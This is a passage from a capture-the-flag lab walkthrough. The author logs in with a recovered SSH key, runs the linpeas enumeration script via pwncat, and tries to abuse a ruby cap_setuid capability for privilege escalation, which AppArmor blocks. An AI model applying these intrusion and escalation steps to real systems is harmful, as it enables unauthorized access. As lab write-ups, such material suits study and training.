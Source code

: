 then:
```bash
nano id_rsa
chmod 600 id_rsa

ssh -i id_rsa alvin@10.10.95.98
```
We're in, we can upload __"linpeas.sh"__ and run it:
```bash
upload linpeas.sh /tmp/peas.sh #pwncat command
chmod +x peas.sh
./peas.sh
```
Output:

![cap](./pics/cap.png)

We have __"cap_setuid"__, we can go to [GTFOBins](https://gtfobins.github.io/gtfobins/ruby/#capabilities), we can use the capability with the following command but it returns this error:
```bash
Traceback (most recent call last):
        1: from -e:1:in <main>
-e:1:in setuid': Operation not permitted (Errno::EPERM)'
```
There is something who block it. After some time spend to read linpeas' output I found this one:

![apparmor](./pics/armor.png)
